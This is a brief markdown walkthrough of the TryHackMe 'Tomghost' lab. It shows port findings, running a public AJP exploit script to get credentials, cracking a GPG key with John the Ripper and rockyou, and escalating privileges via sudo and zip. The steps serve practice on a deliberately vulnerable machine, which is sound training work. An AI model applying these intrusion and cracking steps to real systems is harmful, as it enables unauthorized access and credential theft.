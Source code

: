 ```yaml
---
title: Tomghost WalkThrough
permalink: /tomghost
layout: page
tags: TryHackMe
---
```

TomGhost
![front](/images/tomghost/front.png)
[https://tryhackme.com/room/tomghost](https://tryhackme.com/room/tomghost)

## Open Ports:
	![open_ports](/images/tomghost/open_ports.png)
	- 22: ssh
	- 53: domain
	- 8009: ajp13
	- 8080: http-proxy

## Gainaing Access:
	```bash
	searchsploit ajp
	```
	![sploit](/images/tomghost/sploit.png)
	
	```python
	python 48134.py <ip>
	```
	![python_sp](/images/tomghost/python_sp.png)
	* Found **Username** & **Password**

## Port 21[ssh]:
	a. User: `skyfuck`
	b. Passwd: `87302………salks`

### User Flag:
	![usflag](/images/tomghost/usrflag.png)

## Priviledge Escalation:
	1. import files form /home/skyfuck to your **pc**
		Now craking the files:
		```bash
		Gpg2john tryhacme.acs > outfile
		John outfile --format=gpg --wordlist=rockyou.txt
		```
		![john](/images/tomghost/john.png)
	2. Go to Vulneralble machine:
		```bash
		Gpg --import tryhackme.asc
		Gpg --decrypt credential.pgp
		```
		![gpg](/images/tomghost/gpg.png)
	3. `sudo -l`
		![sudo](/images/tomghost/sudo.png)
	4. Exploiting via **__zip__**
		![zip](/images/tomghost/zip.png)

### Root Flag:
	![root](/images/tomghost/root.png)
